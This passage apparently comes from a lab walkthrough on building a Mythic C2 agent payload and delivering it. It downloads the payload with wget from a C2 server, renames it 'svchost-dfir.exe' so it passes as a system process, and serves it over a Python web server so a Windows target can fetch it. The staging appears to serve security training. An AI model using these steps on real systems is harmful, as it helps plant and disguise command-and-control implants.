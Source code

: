![Screenshot_(937)](https://github.com/user-attachments/assets/48a5dde6-9b32-44dd-bc9d-454a3f643948)

3.3.0. In **Payload Review** section, name the payload now

![Screenshot_(938)](https://github.com/user-attachments/assets/636f8cda-ea55-48dd-80e2-cf7763bb1a75)

3.3.1. Once the payload has been successfully built, right click **Download** and select **Copy Link Address.** Save the Payload URL to a notepad

![Screenshot_(939)](https://github.com/user-attachments/assets/32d30d17-1881-466a-9069-5942024364fc)

![Screenshot_(940)](https://github.com/user-attachments/assets/3201be9b-12a3-4180-8f5b-4a5752db5cf6)

3.3.2. Back in the Mythic Server, change to the **/root directory.** and wget the payload using the link saved previously. The file will then be saved to the server. It can be seen that this file is  a PE32 executable

```powershell
cd ~ 
wget https://45.76.30.116:7443/direct/download/93ba273b-2654-4ef5-9dab-ad9c25cb1232 --no-check-certificate
```

![Screenshot (941).png](https://prod-files-secure.s3.us-west-2.amazonaws.com/246692bd-cf92-4f91-8b4e-6d4c15c8bf7a/d594b30d-ede7-473f-a856-7c7b5ef40728/Screenshot_(941).png)

![Screenshot (942).png](https://prod-files-secure.s3.us-west-2.amazonaws.com/246692bd-cf92-4f91-8b4e-6d4c15c8bf7a/7d327ee2-123a-4d4b-9501-26f4b339bd8e/Screenshot_(942).png)

3.3.3. To change the name run the following

```powershell
mv 93ba273b-2654-4ef5-9dab-ad9c25cb1232 svchost-dfir.exe
```

![Screenshot (943).png](https://prod-files-secure.s3.us-west-2.amazonaws.com/246692bd-cf92-4f91-8b4e-6d4c15c8bf7a/46e4ae9e-c78c-445c-ae34-60b4e1baea74/Screenshot_(943).png)

3.3.4. Create a directory and move the file into that directory 

```powershell
mkdir 1
mv svchost-dfir.exe 1/
cd 1 
ls
```

3.3.5. Use an http module by python to spin up a web server. Ensure the payload is in the directory and the command is being ran from that directory. Be sure the ufw is allowing traffic on port 9999 and 80 

```powershell
ufw allow 9999
ufw allow 80
python3 -m http.server 9999
```

3.3.6. Back in the Kali RDP instance, run PowerShell and from there access the web server spun up on the Mythic Server. Once done successfully, the payload should now be on the Windows Server
